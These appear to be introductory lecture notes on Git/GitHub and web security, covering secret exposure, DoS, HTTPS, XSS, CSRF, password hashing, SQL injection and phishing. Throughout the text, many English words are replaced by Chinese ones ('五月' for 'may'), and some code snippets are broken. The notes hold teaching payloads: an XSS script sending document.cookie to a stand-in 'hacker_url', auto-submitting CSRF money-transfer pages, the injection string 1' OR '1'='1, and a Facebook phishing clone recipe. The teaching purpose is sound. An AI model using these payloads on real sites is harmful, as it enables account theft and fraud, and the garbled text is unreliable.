



讲座 9
Git/GitHub
-
Git and GitHub allow users to save their code to an 互联网 based repository and track their code for changes.
- For 示例, if a user realizes that they’ve broken previously functioning code, they can use GitHub to revert to an old version of their code. This is called version control.
Working on GitHub
-
Suppose we have some files that we would like to save on GitHub. We would package these files up into a commit, a package that we send to the 互联网, and push this commit onto GitHub. This constitutes our initial commit.
-
To track changes, GitHub tracks the chain of commits. This chain of commits is similar to a linked list, where each commit knows 关于 the commit that comes after it (once that commit is pushed) as well as all of the commits before it.
-
GitHub was designed to encourage developers and programmers to create an 打开 source 社区 where anyone can view another’s code. This means that we can 搜索 all of the public repositories, and if there is a match, we can view that entire repository.
-
We can also fork another person’s code.
-
Forking a repository refers to taking the entire collection of files and copying it onto our own GitHub.
-
After forking, we can make changes or suggest changes before pushing these changes 返回 to the original repository.
-
-
GitHub also lets people work from multiple workstations, allowing for collaboration. This concept 五月 be reminiscent of Google Drive or Dropbox.
- To work with another person on a repository, we simply push changes onto this repository, and the other person pulls these changes. If the other person makes changes, they simply push their changes, and then, we pull.
Accidental Exposure
Fixing an Accidental Exposure
Now, let’s suppose we’ve pushed a new commit; however, we’ve accidentally included sensitive information, maybe a password, in the files, and now this sensitive information is on the 互联网!
What we’ve done with GitHub might look something like this:

-
We could try removing the sensitive information and pushing a new commit.

- This, however, would not solve our problem. Git has stored all of our 上一页 commits, and thus, our sensitive information is still on GitHub.
-
Instead, we can clear a portion of our history by using
git-rebase.-
This allows us to pick a 上一页 starting point and erase every commit from then on. In our case, we would like to rebase to the first commit.

-
笔记 that when we return to a 上一页 commit, all changes from then are erased. Thus, it’s important to copy important changes somewhere else before rebasing to a 上一页 commit.
-
Preventing Accidental Exposure
-
We can use
git-secrets, which will warn us whenever we make a commit that might contain “secrets.”git-secretschecks for these “secrets” by using regular expressions, a sequence of symbols and characters that represents a set of strings to be searched for in a longer piece of text. Whenevergit-secretsfinds a match, it will warn us, asking us if we are sure that we’d like to proceed with committing. -
We can also limit 3rd party app access. One particular 示例 is OAuth, where we can log into other services via our Facebook, Google, or GitHub accounts. This allows the 3rd party application the ability to use and access our, for 示例, GitHub identity.
-
We can use “commit hooks,” or sets of instructions that execute when a commit is pushed to GitHub.
-
In CS50, when files are changed and a commit is pushed, a commit hook is triggered. This commit hook then copies these changed files onto CS50’s web server and runs tests to ensure that there are no errors in them. If all the tests pass, then the files can be activated on the web server.
-
To prevent accidental exposure, we can use these commit hooks to ensure that there are no passwords on our files.
-
-
We can use SSH keys as identification verification. For 示例, when using SSH keys, when we push a commit to GitHub, we also digitally sign the commit. Before this commit is posted to GitHub, GitHub will verify that the commit was actually pushed by us by checking our public key.
-
Finally, we can use two factor authentication with two factors that are fundamentally different. Having two very different factors makes it difficult for an adversary to have or know both authentication methods. Generally this means a password and a cell phone or RSA key.
-
RSA keys are a form of two factor authentication.
-
There is a six digit number inside the window of an RSA key that changes every 60 seconds via an algorithm.
-
When we’re assigned an RSA key by a company, the company’s server will contain a mapping from the RSA key’s serial number (located on the 返回) and some 排序 of employee identification. However, 笔记 that the company does not know the six digit number on the RSA key, just the serial number of the RSA key itself.
- To complete a log in via an RSA key, we’ll have to enter the number on our RSA key.
-
-
Other 工具 that provide two factor authentication include Google Authenticator, Authy, Duo Mobile, and even SMS.
-
DoS Attack
-
DoS attacks, or denial of service attacks, cripple the infrastructure of websites by having an adversary send so many requests to a server that the server becomes overloaded and eventually crashes.
-
These attacks are relatively easy to execute—a commercially available machine might be able to execute a DoS attack on a small business running on its own servers.
-
When attacking a medium sized companies, however, one computer and one IP address is generally not enough to execute a DoS attack. Instead, the hacker(s) can use a botnet to execute a DDoS attack, or a distributed denial of service attack.
-
A botnet is created when hackers distribute worms or viruses that don’t do anything until activated. After activation, it becomes an agent or a zombie, controlled by the hackers.
-
In this case, the hackers gain control of thousands or hundreds of thousands of devices. These devices can then all make web requests to the same server, eventually causing the server to crash.
-
-
These attacks are very common—关于 16% - 35% of businesses per year are attacked.
-
Cloud computing has magnified the consequences of DoS attacks. In cloud computing, we generally rent server space and power from an entity like Amazon Web Services or Google Cloud Services. Then, many businesses share the same physical 资源, so if one business is attacked and the server crashes, that will affect the other business as well.
-
Consequences can be even further magnified when 互联网 providing services are attacked.
-
For 示例, DYN, a DNS (domain 姓名 service) provider, was attacked by DDoS attacks in 2016, and this attack lasted 10 hours.
-
Attacking a DNS provider is particularly harmful because generally, we do not know the IP addresses of websites, we only know their URLs. To complete a request, then, we depend on a DNS provider to map that URL to an IP address.
-
When a DNS provider is attacked, it becomes overloaded with requests from some botnet and is no longer able to complete actual requests. This means that IP addresses can’t be mapped to URLs anymore, so no one can visit any websites via URLs.
-
-
If interested in reading 关于 how violations of computer-based crimes are prosecuted, check out the Computer Fraud and Abuse Act, codified at USC 1030.
Stopping DoS Attacks
-
A DoS attack can be stopped by configuring the server to stop accepting requests from the IP address that is currently attempting to overload the server.
-
A DDos attack is much 更多 difficult to stop, however, because of its usage of many, many addresses. There are multiple techniques we might use to avert DDoS attacks.
-
We can set up a firewall where we only accept certain types of requests. While we’ll allow requests from any IP address, we’ll only allow requests into certain ports.
- For 示例, perhaps a server typically expects to receive requests on HTTPS, or port 443. If a DDoS attack begins, and the server begins to receive a lot of HTTP requests on port 80, the server can simply stop accepting requests on port 80 until the attack stops.
-
Another technique is called sinkholing, where all requests are let in, but the server doesn’t complete any requests. The server, then, does remain up, meaning the website won’t be taken down. 笔记 that in this case, legitimate requests also will not be completed.
-
We can also do packet analysis, where we take a look at the headers of the requests that are being sent. These headers contain information such as their IP address, their OS, their browser, and their geographic 地点.
- For 示例, perhaps a server typically expects to receive requests from the US Northeast. If a DDos attack begins, and the server begins to receive a lot of requests from another geographic 地点, the server can stop accepting requests from that 地点.
-
HTTP vs HTTPS
-
HTTP, or the HyperText Transfer Protocol, is used to define and facilitate communications between clients and servers over the 互联网.
-
An HTTP version 1.1 request might look like this:
GET /execed HTTP/1.1 Host: law.harvard.edu- In this case
GETrefers to asking the server to retreive the page/execedfrom the hostlaw.harvard.edu.
- In this case
-
HTTP requests are not encrypted. When the request is sent, it will likely go through many routers before ultimately being delivered to the server.
![routers][routers.png]
-
Since HTTP requests are not encrypted, if the data is being sent over an unsecured network, then it is rather simple to 阅读 the 目录 of the packets going to and from.
-
Additionally, a router 五月 be compromised.
-
For 示例, the router 五月 contain a worm that will eventually cause the router to participate in a DDoS attack.
-
If a router is compromised in a way such that an adversary can 阅读 all the traffic that flows through it, then our information, sent via HTTP, is not secured. This can be solved by HTTPS.
-
-
-
-
HTTPS is the secured version of HTTP, encrypting communications between client and server.
- In HTTPS communications, the server is responsible for providing a valid SSL or TLS 证书.
SSL/TLS Certificates
-
证书 authorities work alongside the 互联网 to verify that a website owns a particular public key.
- The website digitally signs something to the 证书 authority. The 证书 authority then checks the digital signature to verify that this person owns this public key.
-
SSL is the Secure Sockets Layer, another encryption-related protocol for network communications. It has been updated and revised as TLS or Transport Layer 安全.
-
When we make a request via HTTPS to a server, we first make a request asking to begin encrypted communications with the server. This request is encrypted using the server’s public key that the 证书 authority has verified.
-
The server receives the request and decrypts it with their private key. The server will then send a key 返回 to us, encrypted using our public key.
-
The key that the server sends 返回 to us is a cipher. This is referred to as a session key, and it is used to encrypt and decrypt all further communications between us and server until the session ends.
Cross-Site Scripting (XSS)
-
Client-side code is something that runs locally on our computers.
-
Server-side code is run on the server. When we get information 返回 from the server, we receive the output of the code instead of the code itself.
-
Cross-Site Scripting occurs when an adversary tricks a client’s browser to run something locally.
-
Let’s take a look at this Python code, written using a package called Flask that allows us to build web servers.
-
from flask import Flask, request app = Flask(__name__) @app.route("/") def index(): return "Hello, world!" @app.errorhandler(404) def not_found(err): return "Not found: " + request.path -
笔记 that when we visit the
/page on the web server, theindexfunction will be called, and we will receive an HTML page whose content is “你好, 世界!” -
If we go to a page that is not on the server, we’ll get a 404 error. Then the
not_foundfunction will be called, and we will receive an HTML page whose content is “Not found: “ and the page that we were looking for.-
For 示例, if we go to
/foo, we’ll get an HTML page that says “Not found: /foo” -
However, if we visit
/<script>alert('hi')</script>,thenot_foundfunction will return “Not found: “ and this path, which the browser will interpret as HTML. Then, when we receive this as a response from the server, our browser will show the HTML page and an alert saying “hi.”
-
-
-
Let’s look at a 更多 consequential 示例. Suppose Facebook does not defend against XSS (they do), we write this code in our Facebook profile, and we also own a site called
hacker_url./<script>.document.write( '<img src="hacker_url?cookie='> + document.cookie + '" />')</script> ) @app.errorhandler(404) def not_found(err): return "Not Found: " + request.path-
Anytime someone tries to visit our profile, their browser will have to 阅读 the script tag.
-
document.writeis JavaScript that adds what is inside to the HTML of the page. -
document.cookiein this case, since this exists on our Facebook profile, is an individual’s cookie for Facebook.- A cookie is similar to a handstamp, where instead of logging in every 时间, we simply show Facebook our handstamp and we are let in.
-
Each 时间 someone visits our FaceBook page, they will also visit
hacker_url. Then, via ourhacker_urllogs, we’ll be notified that someone has tried to visithacker_url?cookie=+ their cookie. -
Now that we know know their cookie, we can attempt to change our Facebook cookie to theirs and log in as them instead.
-
We use the
<img>tags to trick users to forcibly visit our site, so we 五月 obtain their cookie. 笔记 that the site is forcibly visited because the browser will attempt to pull an image from our site.
-
-
Protecting against XSS
-
We can sanitize the inputs to our site by using HTML entities, or other ways of representing certain characters in HTML.
- For 示例, instead of representing
<and>as HTML, we can use<and>. When someone provides an input on our page, we can automatically change these, so our site no longer interprets these as HTML tags.
- For 示例, instead of representing
-
We can also disable JavaScript, which has positive and negative consequences. This 五月 be beneficial because XSS is usually introduced via JavaScript; however, JavaScript can also be very useful in creating a better user experience.
-
We can handle the JavaScript in a special way:
-
We can disable inline JavaScript, similar to the JavaScript provided earlier, but still allow JavaScript written in separate JavaScript files to be linked to our HTML pages.
-
We can sandbox the JavaScript, or run it separately somewhere else first. If there are not any unintended consequences, it will be displayed.
-
We can execute the Content 安全 Policy, which is a header that allows certain lines or types of JavaScript through but not others.
-
Cross-Site Request Forgery (CSRF)
-
CSRF attacks involve making outbound HTTP requests that were not intended. These attacks rely heavily on cookies since they allow shorthand verification of identities.
-
For 示例, suppose we send someone an 电子邮件, asking them to click on a URL. At this URL, there’s a page with this code:
<body> <a href="http://hackbank.com/transfer?to=doug&amt=500"> Click here! </a> </body>-
In this case, we’ll assume that
hackbank.comexecutes transactions after a user specifies a person and an amount. In the URL in this page, we see that we’re specifying the person as Doug and the amount as 500. -
If the user is a customer of Hackbank and has Hackbank cookies in their browser, clicking on this link would result in 500 dollars being transferred to Doug.
-
-
We can change the 上一页 示例 so that a second link is not 必需.
<body> <img src="http://hackbank.com/transfer?to=doug&amt=500" /> </body>- Upon loading this page, the browser will go to the image link and attempt to load the image. This will complete the transaction.
-
Similarly, we can create a form.
<body> <form action="https://hackbank.com/transfer" method="post"> <input type="hidden" name="to" value="doug"> /> <input type="hidden" name="amt" value="500"> /> <input type="submit" value="Click here!"> /> </form> </body>-
Upon loading this page, a form will pop up with only a 提交 button since the other form fields have type “hidden.”
-
Once the user submits the form, the transaction will be completed.
-
-
We can have this form instantly submitted as well, by adding
onload="document.forms[0].onsubmit()"to the<body>tag. This will, upon loading, look for the first form on the page and immediately 提交 it.
数据库
-
Suppose we have a database of users that looks like this:
id username password 1 alice 你好 2 bob 12345 3 charlie password 4 donna abcdef 5 eric password -
First, we should not be storing their passwords, instead we should be storing hashes of their passwords. We might get this instead:
id username hashed password 1 alice 5D41402ABC4B2A76B9719D911017C592 2 bob 827CCB0EEA8A706C4C34A16891F84E7B 3 charlie 5F4DCC3B5AA765D61D8327DEB882CF99 4 donna E80B5017098950FC58AAD83C8C14978E 5 eric 5F4DCC3B5AA765D61D8327DEB882CF99 -
If an adversary obtains our database of usernames and hashed passwords, they will know that charlie and eric have the same password. If they are able to guess charlie’s password (they might start by guessing common passwords since multiple people have the same password), then they will be able to log in as eric as well.
-
Another issue with the 安全 of usernames and passwords comes with login screens. Generally, when a user clicks “Forgot Password,” a link will be sent to their 电子邮件 address to reset that password. The webpage 五月 display either “Okay! We’ve emailed you a link to change your password” or “Sorry, there is no user with that 电子邮件 address.”
-
The webpage leaks information via these messages. Perhaps an adversary has hacked another database and has the credentials for a particular user. Since people generally tend to re-use the same credentials, the adversary can attempt to log in to other sites with that same credential.
-
By stating whether or not that user exists in the database, the adversary will know whether or not that user uses this particular service. By knowing which services this user uses, the adversary might be able to paint a picture of who the user 五月 be.
-
-
Instead, a forgot password message can say “Request received. If you are in our system, you’ll receive an 电子邮件 with instructions shortly.” This does not reveal whether or not the user actually has an account with the service.
SQL Injection Attacks
-
Suppose when a user logs into our service, we check if they have the correct credentials via this SQL query. This queries a table called
usersthat has ausernamefield and apasswordfield.SELECT * FROM users WHERE (username = uname) AND (password = pword) -
If Alice logs in with username “alice” and password “12345” then our SQL query would look like this:
SELECT * FROM users WHERE (username = 'alice') AND (password = '12345') -
If someone logs in with username “hacker” and password “1’ OR ‘1’ = ‘1” then our SQL query would look like this:
SELECT * FROM users WHERE (username = 'hacker') AND (password = '1' OR '1' = '1')-
笔记 that when this query is executed, there are two components that both must evaluate to true.
- username = ‘hacker’
- password = ‘1’ or ‘1’ = ‘1’
-
The first is true as long as the username exists in the database. The second will always evaluate to true because whether or not password = ‘1’, ‘1’ is always equal to ‘1’. Since they are joined by an “or,” only one has to be true for the entire statement to evaluate to true.
-
Thus, the hacker will be able to log in as the user “hacker,” even if they do not know the password. The hacker can also log in as an administrator and manipulate the data in the database.
-
-
In this Python file called
login.py, we’ll attempt to fix this problem.x = input("Username: ") y = input("Password: ") x = x.replace('\'', '\"') y = y.replace('\'', '\"') print(f"SELECT * FROM users WHERE username = '{x}' AND password = '{y}'")-
The replace function replaces each instance of a single quote with a double quote. 笔记 that we use a backslash before the single quote and the double quote to identify the character. Without the backslash, it 五月 be interpreted as the beginning or end of a string.
-
The
fin the print statement denotes that this is a formatted string, where{x}is substituted with the value in the variablexand{y}is substituted with the value in the variabley. -
Notice that we’re using single quotes to set off the variables in
username = '{x}'andpassword = '{y}'. If there is a single quote in the value ofxory, then SQL will interpret that as the end of that string. By changing all the single quotes to double quotes in the values, this can no longer occur.
-
-
Let’s run this code. Let our username be
Dougand password be1' or '1' = '1.$ python login.py Username: Doug Password: 1' or '1' = '1 SELECT * FROM USERS WHERE username = 'Doug' and password = '1" or "1" = "1'- In this 示例, SQL interprets the entire
1" or "1" = "1as the password, and unless the password actually is1" or "1" = "1, the hacker will not be able to get in.
- In this 示例, SQL interprets the entire
Phishing
-
In phishing, an adversary attempts to socially engineer the target to give up secure information on their own. For 示例, they 五月 pretend to be a business that the target regularly interacts with.
-
A simple way to phish is to use the anchor tags in HTML:
<a href="url1">url2</a>. In this 示例, the user sees url2, but upon clicking url2, the user will be brought to url1. -
Suppose an adversary wanted to obtain Facebook credentials, and they’ve acquired a domain 姓名 like “fscebook.com,” which is 关闭 enough for someone to mistype.
-
They can create a webpage that looks just like Facebook’s by copying and pasting their HTML (we can find their HTML by right clicking on the Facebook page and clicking “Page Source”) into their webpage.
-
When someone clicks the “Log In” button, the adversary can store the information in the form, thereby saving the user’s credentials.
-
From there, the webpage can display a server error message and redirect the user to Facebook’s actual page. Upon logging in again, the user will be able to access Facebook, and most likely, the user will not know that they’ve just exposed their credentials.
-